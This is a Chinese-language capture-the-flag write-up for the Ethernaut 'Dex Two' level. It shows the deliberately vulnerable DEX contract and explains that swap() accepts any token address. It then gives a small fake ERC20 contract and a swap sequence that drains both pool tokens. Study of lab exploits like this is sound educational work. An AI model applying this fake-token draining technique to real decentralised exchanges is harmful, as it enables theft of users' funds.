


## Level_23.Dex Two

要求：

> 获得所有的Token1和Token2；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析

该合约与` Dex `不同之处：

```solidity
// Dex
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

// Dex Two
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

` Dex Two `没有检测Token的地址，那就很简单了，我们只需自己搞一个Token，给交易所1个，我们自己3个即可；

|     当前操作     | Dex的Token1 | Dex的Token2 | Dex的EXP | 用户的Token1 | 用户的Token2 | 用户的EXP |
| :--------------: | :---------: | :---------: | :------: | :----------: | :----------: | :-------: |
|                  |     100     |     100     |    1     |      10      |      10      |     3     |
| swap(EXP, T1, 1) |      0      |     100     |    2     |     110      |      10      |     2     |
| swap(EXP, T2, 2) |      0      |      0      |    4     |     110      |     110      |     0     |


### 攻击

自己实现一个ERC20Token：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Exp is ERC20{
    constructor(address addr) ERC20("ExpToken", "EXP"){
        _mint(msg.sender, 3);
        _mint(addr, 1);
    }
}
```

部署完成同样先给交易所approve：



给交易所approve我们自己的Token：


置换Token1:


置换Token2:



